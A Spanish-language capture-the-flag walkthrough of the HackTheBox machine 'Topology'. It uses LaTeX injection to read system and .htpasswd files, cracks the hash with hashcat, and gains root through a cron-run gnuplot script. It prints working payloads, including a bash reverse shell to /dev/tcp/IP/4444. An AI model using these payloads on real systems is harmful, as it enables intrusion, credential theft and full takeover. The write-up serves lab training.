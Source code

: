 ```yaml
---
title: "Topology"
date: "2025-02-21T17:00:00-05:00"
type: "maquinas"
draft: false
tags: ["crontabs", "linux", "latex", "sudo", "subdominio", "file-read", "apache2", "pspy64", "gnuplot"]
---
```


### Descripción:
Una máquina en la que tenemos que hacer una inyección LaTeX para poder leer archivos y así conseguir el hash del usuario, para luego, mediante una tarea recurrente, ganar root.

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
```

- `-p-` Escanea todos los puertos `1-65535` .
- `—open` Solo muestra los puertos que estén abiertos.
- `-sS` Stealt scan, cambia el modo de escane haciendo que no se complete el hanshake.
- `—min-rate 5000` Como mínimo va a enviar 5000 paquetes por segundo.
- `-vvv` Aumenta la verbosidad, mostrando la máxima informacion posible mientras se ejecuta.
- `-n` Desactiva la resolucion `DNS`; no va a tratar de resolver los nombres de dominio.
- `-Pn` Nmap por defecto manda un ping a la IP; esto lo desactiva.
- `-oG allPorts` Guarda el escaneo en formato `oG` en el archivo llamado `allPorts`.

Este escaneo nos dio dos puertos: el 22 y el 80. Vamos a hacer un escaneo más exhaustivo a estos puertos.

```bash
sudo nmap -sCV -p22,80 IP -A -oN target
```
- `-sCV` Esto ejecuta una serie de scripts predeterminados de Nmap para obtener información adicional sobre los servicios que se encuentran abiertos, como versiones de servicios, detalles del sistema operativo, vulnerabilidades conocidas y la versión exacta. 
- `-p22, 80` Especifica qué puertos se van a escanear.
- `-A` Activa el descubrimiento de sistema operativo, la deteccion de version, script scanning y hace un traceroute.

<a href="https://imgur.com/u8zXpKh"><img src="https://i.imgur.com/u8zXpKh.png" title="source: imgur.com" /></a>

La pagina HTTP que está en el puerto 80 usa Apache 2.4.41.

## Puerto 80

<a href="https://imgur.com/P2kGwLQ"><img src="https://i.imgur.com/P2kGwLQ.png" title="source: imgur.com" /></a>

Al momento de entrar al link `“Latex Equation Generator”` veremos que es un subdmonio por lo que tendremos que agregarlo al `/etc/hosts` para que nos muestre lo siguiente.

<a href="https://imgur.com/T7QA4dq"><img src="https://i.imgur.com/T7QA4dq.png" title="source: imgur.com" /></a>

Algo que podemos tratar es listar los archivos dentro de este subdmonio por lo que vamos a ingresar a la siguiente [URL](http://latex.topology.htb/) dejando el ultimo `/` .

<a href="https://imgur.com/aTp681K"><img src="https://i.imgur.com/aTp681K.png" title="source: imgur.com" /></a>

Revisando los archivos, lo único útil está en `equationtest.tex` ya que nos muestra cómo estan tratando la entrada Latex la web.

```latex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

Podemos observar que la entrada está entre los signos de dólar. Leyendo la página, nos dicen que LaTeX está en el modo “[inline math](https://www.physicsread.com/latex-math-mode/)”. Buscando acerca de este modo, nos encontramos con que hay tres formas de tratarlo:

1. $ . . .$
2. \begin{math} . . . \end{math}
3. \( . . . \)

# Foothold

Por lo que ahora sabemos porque está entre esos signos y confirmamos que la entrada va a estar así planeando una inyección.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

Vamos a tratar de empezar a leer archivos del sistema con la inyección de codigo.

```latex
$ \lstinputlisting{/etc/passwd} $
```

<a href="https://imgur.com/eFdUTzY"><img src="https://i.imgur.com/eFdUTzY.png" title="source: imgur.com" /></a>

Una vez confirmamos que podemos leer archivos vamos a empezar a leer archivos de configuración que nos permitán ingresar al sistema.

```latex
$ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $
```

En este archivo encontramos varios directorios entre ellos uno que pertence al subdominio `dev.topology.htb` lo agregamos al `/etc/hosts` y al ingresar nos pide una contraseña.

Vamos a listar archivos de configuracion por defecto de apache sobre el directorio correspondiente a este subdominio.

```latex
$ \lstinputlisting{/var/www/dev/.htaccess} $
```

<a href="https://imgur.com/pH0zQXZ"><img src="https://i.imgur.com/pH0zQXZ.png" title="source: imgur.com" /></a>

Por ultimo vamos a listar este archivo.

```latex
$ \lstinputlisting{/var/www/dev/.htpasswd} $
```

Nos vamos a encontrar un usuario junto con su hash, vamos a copiarlo y guardarlo en un archivo `.txt` para hacerle fuerza bruta con `hashcat`:

```python
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt --user
```

Esto nos dara su contraseña para iniciar sesion mediante ssh.

# Root

## Enumeración

Primero vamos a hacer el tratamiento basico de la shell:

```bash
export TERM=xterm
```

Listo ahora vamos a tratar de listar archivos y permisos a ver si encontramos algo, pero nos daremos cuenta rapidamente que no tenemos permitido el uso de sudo ni ningun permiso extraño por lo que lo unico que puede tener algo interesante son las crontab pero no nos permiten listarlas entonces vamos a usar la herramienta [Pspy](https://github.com/DominicBreuker/pspy/tree/master).

```bash
#Maquina atacante 
python3 -m http.server 80

#Maquina victima
wget IP/pspy64
chmod +x pspy64 
./pspy64
```

Luego de ejecutar el ultimo comando si esperamos un rato podremos ver que hay una script que se ejecuta cada minuto `/opt/gnuplot/getdata.sh` .

<a href="https://imgur.com/9ry28PV"><img src="https://i.imgur.com/9ry28PV.png" title="source: imgur.com" /></a>

Si analizamos esta salida nos daremos cuenta que lo que se esta haciendo cada minuto es buscar en el directorio `/opt/gnuplot/` todos los archivos con extension `plt` y los ejecuta.

Si tratamos de ingresar al directorio no nos lo permite pero en cambio si creamos un archivo y lo movemos a esa direccion no habra ningun conflicto. Buscando escalaciones de privilegios con `gnuplot` que es el binario que se ejecuta encontramos la siguiente [Exploit](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/gnuplot-privilege-escalation).

```bash
#Maquina atacante
nc -lvnp 4444

#Maquina victima
nano rev.plt

system "bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'"

mv rev.plt /opt/gnuplot/
```

Con esto tendremos acceso como root y habremos completado la maquina.
